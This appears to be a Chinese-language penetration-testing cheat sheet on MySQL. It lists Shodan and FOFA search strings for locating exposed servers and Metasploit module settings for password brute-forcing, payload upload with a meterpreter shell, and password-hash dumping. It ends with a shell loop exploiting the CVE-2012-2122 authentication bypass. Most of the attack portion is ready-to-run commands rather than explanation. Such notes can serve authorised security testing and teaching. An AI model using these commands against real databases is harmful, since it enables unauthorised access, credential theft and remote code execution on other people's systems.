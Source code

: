 # Mysql

MySQL 是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。MySQL 是一种关联数据库管理系统，MySQL 的 SQL 语言是用于访问数据库的最常用标准化语言。MySQL 软件采用了双授权政策，它分为社区版和商业版，一般中小型网站的开发选择 MySQL 作为网站数据库。

> shodan : "product:MySQL"
> fofa : app="Oracle-MySQL"

**Mysql 基础**
- [Mysql](../../../../Integrated/数据库/笔记/Mysql.md)

**Mysql 注入**
- [Mysql数据库注入笔记](../../Web安全/Web_Generic/SQLi.md#Mysql)

**MSF 爆破**
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS [IP]
set USER_FILE [用户名字典]
set PASS_FILE [密码字典]
set STOP_ON_SUCCESS true
set THREADS 20
exploit
```

**MSF 上传文件执行**
```bash
use exploit/windows/mysql/scrutinizer_upload_exec
set RHOST [ip]
set USERNAME [user]
set PASSWORD [pass]
set payload windows/meterpreter/bind_tcp
set RHOST [ip]
set LPORT 4444
exploit
```

**MSF 获取 mysql.user 的 hash**
```bash
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS [ip]
set USERNAME [user]
set PASSWORD [pass]
set THREADS 20
exploit
```

**CVE-2012-2122 Mysql 身份认证绕过漏洞**
- 描述

    当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。

- POC | Payload | exp
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```
